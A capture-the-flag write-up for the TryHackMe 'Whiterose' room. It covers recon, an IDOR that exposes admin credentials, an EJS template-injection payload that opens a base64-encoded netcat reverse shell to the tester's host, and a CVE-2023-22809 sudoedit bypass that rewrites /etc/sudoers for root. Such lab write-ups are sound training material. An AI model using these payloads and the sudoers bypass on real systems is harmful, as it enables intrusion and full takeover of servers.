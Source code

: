 TryHackMe | Whiterose

## Recon: nmap scan

![Alt text for the image](nmap.png)

## Change config file /etc/hosts

![Alt text for the image](etc.png)

## The webpage

![Alt text for the image](webpage.png)

## Brute forcing directories and other things with ffuf and feroxbuster

![Alt text for the image](fuzz.png)

![Alt text for the image](fuzz1.png)

## Change config file /etc/hosts

![Alt text for the image](etc1.png)


## Web access with olivas credentials we where given by the room (Olivia Cortez:olivi8)
But we can take a look at the news history. This is set to ?c=5 during the visit. The parameter c can be checked for IDOR. (http://admin.cyprusbank.thm/messages/?c=5)

With the parameter value 0 we find the credentials of an admin user Gayle Bev. (http://admin.cyprusbank.thm/messages/?c=0)

![Alt text for the image](login_page.png)

![Alt text for the image](message.png)

![Alt text for the image](message1.png)

## Web Access Gayle Bev

We use the found credentials to log in as Gayle Bev and are successful. (Gayle Bev:p~]P@5!6;rs558:q)

![Alt text for the image](gayle_login.png)

We are now able to read the telephone numbers of Tyrell Wellick.

![Alt text for the image](flag1.png)

## Shell as web
We can set the customer's passwords here. What is noticeable is that the passwords are reflected. This immediately draws attention to XSS or SSTI.

We can know this website is vulnarable to SSTI because of this error

![Alt text for the image](server.error.png)

We can find SSTI payloads here: 
  
     https://github.com/mde/ejs/issues/720
     https://eslam.io/posts/ejs-server-side-template-injection-rce/

Next, we set up a listener and us the following payload to spawn a reverse shell.

## Generate a reverse shell

![Alt text for the image](reverse_shell_gen.png)

Encode it in base64 and add it to the payload belwo

![Alt text for the image](encoding.png)
    
    name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash"');//

![Alt text for the image](payload.png)

We should reveice back a connection like this

![Alt text for the image](netcat_listener.png)

We receive a connection back and are the user web. In the home directory of web we find the first flag. After we have received our reverse shell, we then upgrade it. 

![Alt text for the image](flag2.png)

## Upgrading our shell: Follow the steps in the link bellow:

    https://0xffsec.com/handbook/shells/full-tty/

![Alt text for the image](upgrade.png)

![Alt text for the image](upgrade1.png)

We can go to web home directory and find the second flag

## Privilege escelation

Whe can see what commands we can use root with

 ![Alt text for the image](shell_as_root.png)

You can use sudoedit as root without a password to modify the file /etc/nginx/sites-available/admin.cyprusbank.thm.
After some reasearch we find (https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
CVE-2023-22809 for sudoedit

After upgrading our shell 

we use this exploit to see the hash of root

To escalate our privileges to root, we attempt to edit the /etc/sudoers file.
    
    export EDITOR="vi -- /etc/sudoers"
    sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

The first part shows you how to get the hash.

 ![Alt text for the image](hash...png)

 ![Alt text for the image](root_hash.png)


The second part, here we target the line with the command allowing us to execute that specifies the sudoedit command:
    
    web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

and replace it with the following:

    web ALL=(root) NOPASSWD: ALL  

![Alt text for the image](edit.png)

## We are root!

Now we are able to execute any command as root without providing a password and use that to switch to the root user. 

![Alt text for the image](root.png)

To get our last flag

![Alt text for the image](falg3.png)
